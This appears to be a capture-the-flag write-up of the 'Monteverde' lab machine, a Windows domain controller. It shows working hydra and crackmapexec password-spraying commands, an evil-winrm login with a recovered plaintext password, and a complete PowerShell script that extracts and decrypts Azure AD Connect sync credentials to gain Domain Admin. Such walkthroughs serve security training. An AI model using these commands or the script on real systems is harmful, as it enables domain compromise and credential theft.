### Summary
- Another Windows Domain Controller Machine.
- We get a full list of domain users by enumerating **RPC** and are able to login with a user called `SABatchJobs` whose password was his own username.
- *Enumerating the* **SMB** *access for this user,* we find that he could read a certain **XML** file which contained a password.
- *After spraying the password over all users,* it turns out to belong to another user called `mhope` who happens to have **PowerShell Remoting** access and is a member of the `Azure Admins` AD group which was interesting.
- *Additionally,* we found a special folder called `.Azure` in `mhope`'s user profile. It contained remnants of a connection made to **Azure**.
- We also find `Azure AD Connect` installed in the `C:\Program Files` directory which all stuck out and brought our attention to search for **Privilege Escalation** paths along that way.
- *Searching* **Google** *for* `Privilege Escalation Using Azure AD Connect`, we find a **blog post** that gives us a bit of background on what `Azure AD Connect` does and how to exploit it to gain **Domain Admin** privileges.
- *Since* `Azure AD Connect` *uses an account to sync passwords between the* **On-prem Active Directory** *and the* **Azure Instance**, this account must be granted `DCSync` rights.
- The credentials for this account are stored within the local **MSSQL** database that's included in the installation of `Azure AD Connect`. *Even thought they are encrypted,* their decryption keys are also present in the same database.
- *Since our user* `mhope` *had access to that local DB,* We were able to extract and decrypt those credentials after doing a few tweaks to the **PowerShell** script provided by the blog author.
- They turn out to be the **Domain Administrator**'s creds and we root the box.

---

### Nmap
No special scan here. Just the standard `nmap` with `-sC` for default scripts and `-sV` for version detection on all ports.
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-23 17:15:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-server-header: Microsoft-HTTPAPI/2.0
| http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49747/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-06-23T17:16:47
|_  start_date: N/A
```

We notice, it's a Windows box with few ports indicative of a domain controller: DNS on tcp 53, Kerberos on tcp 88 and LDAP on tcp 389.

Domain name is MEGABANK.LOCAL and Hostname is MONTEVERDE.

We also have WinRM open on tcp 5985 which would be handy to get remote code execution for any user present in either Administrators or Remote Management Users.

### Username Enumeration
Using a tool called `enum4linux-ng`, we are able to get a list of usernames through `RPC`:

Command: `enum4linx-ng -A 10.10.10.172`



No interesting info was there in the description except for one user: `AAD_987d7f2f57d2`

It said: `Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.` which hinted at the possibility that this account might have DCSync rights. If that was true, then getting access as that user would mean game over :D

We take note of that and get the Domain Password Policy from the output as well.



No account lockout! We can spray like there's no tomorrow :D

### Password Spraying
Since ASREPRoasting is the first thing to do with a userlist, we tried that but weren't awarded with any hashes. So we turned to Password Spraying.

We make a quick list of common passwords to try like 'P@ssw0rd, Welcome1' etc. but don't get anything.

So we try using the usernames as passwords. We do this attack using `hydra` and we get a hit!

Command: `hydra -e s -L users.txt ldap3://10.10.10.172 -v`

where the `-e` flag with the `s` argument is the part instructing `hydra` to use the same entry for both username and password.



### SMB Access
After we verify that `SABatchJobs` doesn't have WinRM access, we enumerate his SMB Access using `crackmapexec`'s `spider_plus` module.

This module does as the name suggests: it recursively spiders SMB shares and outputs the results in a temp folder.

Command: `crackmapexec smb 10.10.10.172 -u SABatchJobs -p SABatchJobs -M spider_plus`



Looking at the results in the output JSON file, we a very interesting file: `azure.xml` which existed in the `users` share under the folder for the `mhope` user:



We connect to the share with `smbclient` and download the file and view its contents:

Command: `smbclient //10.10.10.172/users$ -U SABatchJobs`

and we get a password!



### Shell Access as `mhope`
After getting this password, we immediately spray it over the domain users to find that it's valid + we have WinRM access too!

Command: `crackmapexec winrm 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success`

Note: we used the `--continue-on-success` to be able to detect any password reuse and be able to exploit it.



We login using `evil-winrm` to get a full PowerShell session on the box:

Command: `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`



### Enumeration before Privesc
Running a quick `whoami /groups` command shows that we are in an AD group called `Azure Admins`



We also notice a strange folder on `mhope`'s user folder.



And in the `c:\Program Files` directory, we find a whole bunch of software relevant to Azure AD Sync



Right now, our senses are tingling. Because, we have a lot of signs pointing towards this area:
1. the `AAD_987d7f2f57d2` user
2. the `azure.xml` file
3. the `Azure Admins` group membership
4. the `.Azure` folder
5. the Azure related software in `Program Files`

So we go ahead and do some googling :D

### Research
We decide to use a broad term in our first search to make things easier for ourselves. We type in: "Azure AD Sync Privilege Escalation"

and we get this blog post [here](https://blog.xpnsec.com/azuread-connect-for-redteam/):



In the post, we learn that Azure AD Connect is a tool for integrating between both Active Directory Deployments and Azure AD.

It has the Password Hash Syncronization (PHS) feature which "uploads user accounts and password hashes from Active Directory to Azure".

We also learn that, during the setup, an AD account is used to perform the sync process. And is granted the necessary permissions to be able to access all the domain hashes.

One more thing we notice, is that the credentials for the synchronization account are located in the local database included in the installation process.

And, even though they are encrypted, the key to decrypt them is also present in the same database.

### Using the PowerShell Script
Thanks to the researcher "Adam Chester", he had already created a script that takes care of all this and dumps us the stored credentials if we have access to the database.

We're going to use a brief command to try connecting to the local database to see if we have access: `sqlcmd -Q "SELECT name FROM master.dbo.sysdatabases"`

Seems like we do!



We're going to try using the script provided on the blog. 

The script runs, but stops right after it prints its banner and we lose the shell.



### Troubleshooting
Since the script isn't big (< 40 lines) We're going to step through it line-by-line to find out what's failing.

we get the first 5 lines.

```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()

```

And start by running the part which defines how the script will connect to the database a.k.a the "connection string".

`$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"`

which runs okay, because we're not really taking any action. just initializing an object of the type "System.Data.SqlClient.SqlConnection".

We get the error on the `$client.Open()` part.



Reading the sentences in the error tells us something about network-related errors and trying to reach the SQL server remotely.

we confirm this by consulting the Microsoft Documentation for connection strings [here](https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-6.0#system-data-sqlclient-sqlconnection-connectionstring).

it says the "Data Source" is for the "The name or network address of the instance of SQL Server to which to connect." which tells us this is not for a local DB.



so we change it up and just use `localhost` instead. But, we get a different error:



Seems that the connection string way doesn't use our `mhope` user credentials.

Looking again at the Microsoft Documentation, we find info related to authentication:



After modyfing the connection string, we get no errors when opening the connection:



### Enough Troubleshooting. Let me some creds!
After modifying the connection string, let's go over what the script does in brief:

1. Defining the connection string: we're connecting to the ADSync DB on the local computer with windows authentication
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=localhost;Initial Catalog=ADSync;Integrated Security=true;"
$client.Open()
$cmd = $client.CreateCommand()
```

2. Querying for the important bits to do the decryption: `keyset_id`, `instance_id` and `entropy` from the `mms_server_configuration` table
```
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

3. Obtaining the configuration items: `private_configuration_xml` and `encrypted_configuration` from the `mms_management_agent` table
```
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
```

4. Loading the `mcrypt.dll` into memory and carrying out the decryption using the extracted keys from Step #1
```
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

5. Selecting the domain, username and password from the XML-formatted output and outputting them to the screen
```
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: "   + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

With everything in place, we run the script and get a clean set of creds:



The creds are good and we've owned the box :D

